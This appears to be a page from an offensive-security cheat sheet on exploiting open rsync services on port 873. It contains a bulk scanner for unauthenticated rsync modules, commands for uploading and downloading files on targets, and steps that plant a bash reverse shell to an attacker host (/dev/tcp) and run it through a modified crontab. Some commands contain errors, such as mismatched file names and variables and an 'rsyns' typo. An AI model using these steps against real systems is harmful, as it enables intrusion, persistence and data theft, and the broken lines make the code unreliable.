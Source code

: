 # 873 - Rsync

## Potential Risks

### Unauthorized Access

```bash
# RHOST=remoteHost; RPORT=873
rsync rsyns://$RHOST:$RPORT

# Bulk testing
# RHOST_LIST=hosts.txt
run() {
    while IFS= read -r LINE
    do
        if [[ "$LINE" == *":"* ]]; then
            RHOST=${LINE%%:*}
            RPORT=${LINE#*:}
        else
            RHOST=$LINE
            RPORT=873
        fi
        if [[ -n "$(sshpass -p '' rsync rsync://$RHOST:$RPORT 2>/dev/null)" ]]; then
            echo "[SUCCESS] rsync://$RHOST:$RPORT"
        fi
    done < "$RHOST_LIST"
}
run | awk -F '//' '{print $2}'
```

## Exploitation

### Upload File

#### Method 1: Regular upload files

```bash
# RHOST=remoteHost; RPORT=873
rsync -av /path/to/localFile rsync://$RHOST:$RPORT/path/to/remoteFile
```

#### Method 2: Upload crontab to reverse shell

```bash
# RHOST=remoteHost; RPORT=873
# EHOST=evilHost; EPORT=6789

# Method 1: Modify the `crontab` of the remote server
# Step 1: Download the `crontab` of the remote server
# Step 2: Added reverse shell task
# Step 3: Upload the evil 'crontab'

# Method 2: Added the `crontab` of the remote server
# Step 1: Create evil `crontab`
# Step 2: Upload the evil 'crontab'
```

For more information, please refer to page [OOB > Reverse Shell](../../others-high/out-of-band-technology.md#reverse-shell).

#### Method 3: Upload the executable reverse shell file and add crontab to execute

```bash
# RHOST=remoteHost; RPORT=873
# EHOST=evilHost; EPORT=6789

# Step 1: Create a reverse shell script and add executable permissions
echo "#\!/bin/bash\n/bin/bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1" > /tmp/santa_revs.sh
chmod +x /tmp/santaclaus_revs.sh
# Step 2: Upload reverse shell script
rsync -av /tmp/santaclaus_revs.sh rsync://$RHOST:$RPORT/src/tmp/santaclaus_revs.sh
# Step 3: Download and modify the target server crontab
# Step 4: Upload evil crontab
```

For more information, please refer to page [OOB > Reverse Shell](../../others-high/out-of-band-technology.md#reverse-shell).

### Download File

```bash
# RHOST=remoteHost; RPORT=873
rsync -av rsync://$RHOST:$RPORT/path/to/remoteFile /path/to/localFile
```
